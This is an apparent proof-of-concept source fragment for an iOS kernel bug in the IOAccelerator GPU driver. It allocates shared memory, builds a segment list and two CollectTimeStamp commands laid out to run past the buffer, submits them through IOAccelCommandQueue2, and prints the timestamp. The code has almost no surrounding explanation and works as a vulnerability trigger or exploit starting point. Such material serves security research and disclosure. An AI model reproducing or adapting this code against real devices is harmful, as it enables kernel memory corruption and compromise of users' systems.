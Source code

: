 ```cpp
    assert(kr == KERN_SUCCESS);

    struct IOAccelDeviceShmemData *command_buffer_shmem = IOAccelSharedUserClient2_create_shmem(IOAccelSharedUserClient2, 0x4000);
    struct IOAccelDeviceShmemData *segment_list_shmem = IOAccelSharedUserClient2_create_shmem(IOAccelSharedUserClient2, 0x4000);

    mach_port_t notification_port = 0;
    mach_port_allocate(mach_task_self(), MACH_PORT_RIGHT_RECEIVE, &notification_port);
    IOAccelCommandQueue2_set_notification_port(IOAccelCommandQueue2, notification_port);

    pthread_t notification_recv_thread;
    pthread_create(&notification_recv_thread, NULL, notification_recv_func, (void *)(uintptr_t)notification_port);

    struct {
        struct IOAccelCommandQueueSubmitArgs_Header header;
        struct IOAccelCommandQueueSubmitArgs_Command command;
    } submit_args = {};
    submit_args.header.count = 1;
    submit_args.command.command_buffer_shmem_id = command_buffer_shmem->shmem_id;
    submit_args.command.segment_list_shmem_id   = segment_list_shmem->shmem_id;

    struct IOAccelSegmentListHeader *slh = (void *)segment_list_shmem->data;
    slh->length = 0x100;
    slh->segment_count = 1;
    struct IOAccelSegmentResourceListHeader *srlh = (void *)(slh + 1);
    srlh->kernel_commands_start_offset = 0;
    srlh->kernel_commands_end_offset = 0x4000;

    struct IOAccelKernelCommand_CollectTimeStamp *cmd1 = (void *)command_buffer_shmem->data;
    cmd1->command.type = 2;
    cmd1->command.size = 0x4000 - 8;
    struct IOAccelKernelCommand_CollectTimeStamp *cmd2 = (void *)((uint8_t *)cmd1 + cmd1->command.size);
    cmd2->command.type = 2;
    cmd2->command.size = 8;

#define KTRW 0

    printf("IOAccelCommandQueue2::submit_command_buffers()\n");
#if KTRW
    sleep(4);
#endif
    IOAccelCommandQueue2_submit_command_buffers(IOAccelCommandQueue2, &submit_args.header, sizeof(submit_args));
    printf("timestamp = %llx\n", cmd1->timestamp);
#if KTRW
    sleep(4);
#endif
}

int main(int argc, char *argv[], char *envp[]) {
    dispatch_async(dispatch_get_global_queue(DISPATCH_QUEUE_PRIORITY_DEFAULT, 0), ^{
        poc();
        usleep(100000);
        exit(1);
    });
    while(1) {};
    return 0;
}

```